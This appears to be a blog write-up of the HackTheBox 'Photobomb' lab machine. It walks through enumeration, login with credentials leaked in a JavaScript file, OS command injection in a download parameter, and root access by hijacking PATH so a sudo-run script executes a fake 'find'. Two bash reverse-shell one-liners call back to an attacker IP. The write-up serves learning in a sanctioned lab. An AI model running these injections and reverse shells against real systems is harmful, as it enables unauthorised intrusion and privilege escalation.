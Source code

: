 ```yaml
---
title: Photobomb
author:
  name: eng4ge
  link: https://github.com/an9k0r
date: 2023-03-04 09:33:00 +0100
categories: [HackTheBox, Linux]
tags: [Web, Vulnerability Assessment, Injection, Custom Applications, NGINX, Python, SUDO Exploitation, OS Command Injection]
math: true
mermaid: true
image:
  src: /assets/images/20221010204442.png
  width: 694
  height: 515
  alt: image alternative text
---
```

**Photobomb is an easy linux box where we have to enumerate a web application, achieving OS command injection. For privilege escalation, there is vulnerable script which uses relative path which we can exploit**

# Enumeration
## Nmap 

Let's start NMAP
```
Nmap scan report for photobomb.htb (10.129.224.122)
Host is up (0.036s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e2:24:73:bb:fb:df:5c:b5:20:b6:68:76:74:8a:b5:8d (RSA)
|   256 04:e3:ac:6e:18:4e:1b:7e:ff:ac:4f:e3:9d:d2:1b:ae (ECDSA)
|_  256 20:e0:5d:8c:ba:71:f0:8c:3a:18:19:f2:40:11:d2:9e (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Photobomb
|_http-favicon: Unknown favicon MD5: 622B9ED3F0195B2D1811DF6F278518C2
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Oct 10 19:03:58 2022 -- 1 IP address (1 host up) scanned in 16.42 seconds
```
We have ports `80` and `22`, so we should probably focus on webserver on port 80!

## Web Server
### Whatweb
Using `Whatweb` we get a redirect back to `photobomb.htb` which will be added to `/etc/hosts`
![](/assets/images/20221010190131.png)
We can also see that we're dealing with Ubuntu and we know exact version of `NGINX` server, which is `1.18.0`

### Browser and running Burp in the background
Let's check the website through browser and let's not forget to start Burp to run in the background!

So this is the website:
![](/assets/images/20221010190728.png)

If we click on `click here!` prompt opens asking us for credentials:

![](/assets/images/20221010190815.png)

I'd search for default credentials if i could fingerprint the service but doesn't seem to be the case here. 

### Leaked credentials in JS File
If we've had Burp open, we'd find `photobomb.js` file in `Site Map`

![](/assets/images/20221010191858.png)
Otherwise checking source should do well, as well.

Login using `pH0t0:b0Mb!`

![dsa](/assets/images/20221010192904.png)

### 404 Not found = Sinatra?
If we open non-existing page we get onto this site:
![asd](/assets/images/20221010193045.png)

And the source
![aaa](/assets/images/20221010193220.png)
We can see another port `4567` open on localhost. 
Hopefully we've noticed that some kind of `Sinatra` is running, and if we google => https://sinatrarb.com

### Enumerating download photo 
If we scroll down, we can see that we have some sort of download option

![](/assets/images/20221010194426.png)

This is request seen in Burp
![](/assets/images/20221010194643.png)
After checking for LFI, RFI, i've noticed that `filetype` parameter is vulnerable to OS Command Injection

![](/assets/images/20221010195902.png)
We just need to make sure to inject valid photo, otherwise the payload won't work (at least it did not work for me)

# Getting Shell as Wizard
## OS Command Injection
I've used following payload for reverse shell 
```bash
bash -c  "bash -i >& /dev/tcp/10.10.14.216/4242 0>&1"
```
Before i've sent it i've URL encoded it!

![](/assets/images/20221010200413.png)
# Privilege Escalation to root
## Relative path used - script can be ran as sude
There we are. We now have a shell as `wizard` and `sudo -l` already gives us a hint what should we be looking for. There's a script runing with root privileges named `/opt/cleanup.sh`.
```
wizard@photobomb:~$ cat /opt/cleanup.sh
cat /opt/cleanup.sh
#!/bin/bash
. /opt/.bashrc
cd /home/wizard/photobomb

# clean up log files
if [ -s log/photobomb.log ] && ! [ -L log/photobomb.log ]
then
  /bin/cat log/photobomb.log > log/photobomb.log.old
  /usr/bin/truncate -s0 log/photobomb.log
fi

# protect the priceless originals
find source_images -type f -name '*.jpg' -exec chown root:root {} \;
```
Notice that we the last `find` does not have absolute path specified as commands before that.

We can exploit that simply by modifing our PATH by placing `find` script before real `find`.
Let us do that:
```
wizard@photobomb:~$ whereis find
whereis find
find: /usr/bin/find /usr/share/man/man1/find.1.gz /usr/share/info/find.info-2.gz /usr/share/info/find.info-1.gz /usr/share/info/find.info.gz

wizard@photobomb:~$ echo $PATH
echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

wizard@photobomb:~$ export PATH=/home/wizard:$PATH
export PATH=/home/wizard:$PATH

wizard@photobomb:~$ echo $PATH
echo $PATH
/home/wizard:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

```
echo '#!/bin/bash' > find
echo '/bin/bash -c "/bin/bash -i >& /dev/tcp/10.10.14.216/5555 0>&1" &' >> find
```

Make sure to make thae `/home/wizard/find` script executable using `chmod +x find`!

When runing the `/opt/cleanup.sh` you'll have to include the ENV variable = PATH.

![](/assets/images/20221010204244.png)